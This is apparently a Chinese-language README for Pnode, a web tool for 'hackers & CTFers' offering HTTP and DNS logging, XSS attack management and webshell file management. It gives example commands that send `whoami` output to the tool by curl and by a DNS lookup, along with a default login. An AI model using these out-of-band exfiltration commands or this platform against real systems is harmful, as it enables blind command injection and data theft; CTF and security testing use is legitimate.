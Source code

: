 ```
   ___                 _      
  / _ \_ __   ___   __| | ___ 
 / /_)/ '_ \ / _ \ / _` |/ _ \
/ ___/| | | | (_) | (_| |  __/
\/    |_| |_|\___/ \__,_|\___|
                              
```

ps: 请使用chrome浏览器

更新日志:

```
2019-01-19 首次公开
2019-03-19 增加DNS rebinding
2019-07-13 修改部分bug,增加Dockerfile,默认账号密码:pnode/pnode
```

### 项目名称

Pnode

### 项目描述

前端使用Boostrap框架，后端使用thinkphp5框架开发

适用于hacker&CTFer

可以满足日常的需求，并且可以直接在WEB端管理&编辑一些文件用于远程加载

登陆路径: /public/index.php/index/admin/index.html

### 功能介绍

* HTTP log
* DNS log
* XSS攻击管理模块
* WebShell等文件管理模块

```
curl http://127.0.0.1:10082/public/?c=`whoami`
```



![](http://p0desta-pictures.test.upcdn.net/20190614112000.png)



```
ping -c 2 `whoami`.pnode.tk
```



![](http://p0desta-pictures.test.upcdn.net/20190614112245.png)

![](http://p0desta-pictures.test.upcdn.net/20190614112021.png)

![](http://p0desta-pictures.test.upcdn.net/20190614112034.png)





### 环境部署

LAMP环境即可

修改database.php中数据库账号密码

自行修改默认登陆密码(md5后的)

```
update users set password=md5('admin') where username='admin'
```

如果需要DNS log功能,首先`https://my.freenom.com/`注册一个账号,然后免费申请一个域名



![](http://p0desta-pictures.test.upcdn.net/20190614112047.png)

然后将你的vps的外网ip填入

然后一直继续即可

然后将dns.py放入到`/tmp`目录下

修改dns.py为你的域名和你的vps ip,然后手动启动dns服务

```
nohup python /tmp/dns.py &
```

在一个小时左右将会解析成功,然后就可以接受到log。


* PS:部分模块代码取自火日师傅项目,感谢。
